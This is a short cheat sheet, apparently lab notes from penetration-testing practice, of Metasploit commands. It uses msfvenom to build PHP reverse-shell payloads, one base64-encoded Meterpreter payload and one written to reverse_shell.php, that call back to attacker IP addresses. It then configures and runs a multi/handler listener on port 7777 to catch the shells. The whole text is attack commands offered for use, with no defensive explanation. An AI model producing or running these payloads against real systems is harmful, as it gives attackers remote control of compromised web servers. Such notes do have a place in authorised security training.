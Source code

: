 # msfvenom -> payload builder in memory

msfvenom --list formats
msfvenom --list payload

# -p : payload file

msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php

# setting lhost, lport (local)

msf6 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
msf6 exploit(multi/handler) > show options

# exploit run

exploit
run
